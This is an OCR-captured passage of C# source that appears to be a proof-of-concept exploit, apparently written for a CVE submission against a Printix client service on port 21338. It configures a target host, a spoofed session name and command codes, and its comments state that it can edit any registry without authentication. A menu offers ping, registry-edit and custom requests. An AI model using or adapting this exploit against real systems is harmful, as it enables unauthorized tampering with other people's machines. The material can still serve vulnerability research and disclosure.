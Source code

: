                         value = new string[1] { string.Empty };
                    }
                    string[] array2 = (string[])value;
                    foreach (string s in array2)
                    {
                        byte[] bytes = Encoding.UTF8.GetBytes(s);
                        byte[] second = new byte[1] { (byte)bytes.Length };
                        array = array.Concat(second).Concat(bytes).ToArray();
                    }
                    break;
                }
        }
        return array;
    }
}
class CVESUBMISSION
{
    static void Main(string[] args)
    {
    FORCERESTART:
        try
        {

            //Edit any registry without auth:
            //Use command 49, use the code provided on the desktop...
            //This modifies it directly, so no specific username is needed. :D

            //The command parameter, a list of commands is below.
            int command = 43;

            //To force the user to input variables or not.
            bool forceCustomInput = false;

            //The data to send, this isn't flexible and should be used only for specific examples.
            //Try to keep above 4 characters if you're just shoving things into the command.
            string data = "{\"profileID\":1,\"result\":true}";

            //The username to use.
            //This is to fulfill the requriements whilst in development mode.
            DefaultValues.CurrentSessName = "printixMDNs7914";

            //The host to connect to. DEFAULT= "localhost"
            string host = "192.168.1.29";

        //                                Configuration Above

        InvalidInputLabel:
            Console.Clear();
            Console.WriteLine("Please select the certificate you want to use with port 21338.");
            //Deprecated, certificates are no longer needed to verify, as clientside only uses the self-signed certificates now.
            Console.WriteLine("Already selected, client authentication isn't needed.");

            Console.WriteLine(" /───────────────────────────\\ ");
            Console.WriteLine("\nWhat would you like to do?");
            Console.WriteLine("\n    1. Send Ping Request");
            Console.WriteLine("    2. Send Registry Edit Request");
            Console.WriteLine("    3. Send Custom Request");
            Console.WriteLine("    4. Experimental Mode (Beta)\n");
            Console.Write("I choose option # ");
